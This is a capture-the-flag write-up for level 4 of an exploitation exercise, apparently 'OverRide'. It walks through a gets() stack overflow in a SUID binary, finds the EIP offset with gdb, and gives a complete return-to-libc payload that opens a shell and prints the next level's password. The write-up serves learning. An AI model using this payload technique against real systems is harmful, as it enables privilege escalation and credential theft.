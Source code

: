 # Level 4

## Vulnerability

gets() stack overflow + Return-to-libc

## Context

We find a binary with owner ```level05``` and SUID.
```
level04@OverRide:~$ ls -l
-rwsr-s---+ 1 level05 users 7797 Sep 10  2016 level04
```

When run it gives us a hint, then reads from stdin, then exits.
```
level04@OverRide:~$ ./level04
Give me some shellcode, k
[... user input from stdin ...]
child is exiting...
level04@OverRide:~$
```

## Solution

### main() overview

First ```main()``` forks a child process, and links the child's return to the parent.

Then ```gets()``` reads stdin into a buffer.

Finally the child process is killed if it makes a syscall to exec().

See [disassembly notes](https://github.com/anyashuka/Override/blob/main/level04/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

### Find EIP offset

The ```gets()``` call is vulnerable to buffer overflow, lets try to overflow and overwrite EIP, and so take control of the program.

Because ```gets()``` is called by the child process, to investigate in gdb we need to follow the child using the command ```set follow-fork-mode child```.

Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find we reach the EIP after 156 bytes.
```
level04@OverRide:~$ gdb -q level04
...
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04
[New process 1701]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2A

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1701]
0x41326641 in ?? ()               // EIP offset = 156 bytes
```

### Find libc addresses

However, if we try to insert a malicious shellcode which opens a shell the child process is killed. So let's try a return-to-libc attack. First, we need the address of ```system()```, ```exit()``` & ```"/bin/sh"```.
```
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

### Build exploit

So we build our exploit string:
1. 156 byte buffer - ```python -c "print 'A' * 156"```
2. system() address - ```\xd0\xae\xe6\xf7```
3. exit() address - ```\x70\xeb\xe5\xf7```
4. "/bin/sh" address - ```\xec\x97\xf8\xf7```

Let's pipe our exploit string into the binary stdin.
```
level04@OverRide:~$ (python -c "print 'A' * 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7'" ; cat) |./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

## Recreate Exploited Binary


